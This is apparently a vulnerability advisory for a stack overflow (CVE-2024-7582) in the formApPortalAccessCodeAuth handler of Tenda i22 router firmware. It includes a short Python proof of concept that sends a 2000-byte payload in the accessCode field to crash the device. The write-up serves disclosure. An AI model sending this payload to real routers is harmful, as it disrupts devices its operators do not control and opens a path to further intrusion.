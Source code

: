 ## Overview

- Manufacturer's website: https://www.tenda.com.cn
- Firmware download website: https://www.tenda.com.cn/download/detail-2747.html

## Affected version

i22 V1.0.0.3(4687)

## Vulnerability details

In the i22 V1.0.0.3(4687) firmware has a stack overflow vulnerability in the `formApPortalAccessCodeAuth` function. This function accepts `accessCode`, `data` and `acceInfo` parameters from a POST request. All of the parameters are later copied by `strcpy` or `sprintf` to variables on the stack, causing a stack overflow.

![image1](image/1.png)

![2](image/2.png)

![3](image/3.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.244.3"
url = "http://" + ip + "/goform/apPortalAccessCodeAuth"
payload = b"a"*2000

data = {
    "accessCode": payload,
    "data": "1",
    "acceInfo": "2"
}

response = requests.post(url, data=data)
print(response.text)
```

![demo](image/demo.png)

## CVE

CVE-2024-7582